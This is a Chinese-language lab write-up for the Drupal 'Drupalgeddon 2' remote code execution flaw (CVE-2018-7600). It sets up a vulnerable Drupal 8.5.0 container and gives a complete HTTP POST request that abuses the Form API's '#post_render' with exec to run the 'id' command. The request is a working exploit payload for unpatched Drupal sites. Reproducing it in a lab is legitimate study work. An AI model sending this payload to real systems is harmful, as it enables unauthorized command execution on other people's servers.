 # Drupal Drupalgeddon 2 远程代码执行漏洞（CVE-2018-7600）

Drupal 是一款用量庞大的CMS，其6/7/8版本的Form API中存在一处远程代码执行漏洞。相关分析如下：

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

参考[a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

成功执行代码，这个代码最终执行了id命令：

![](1.png)
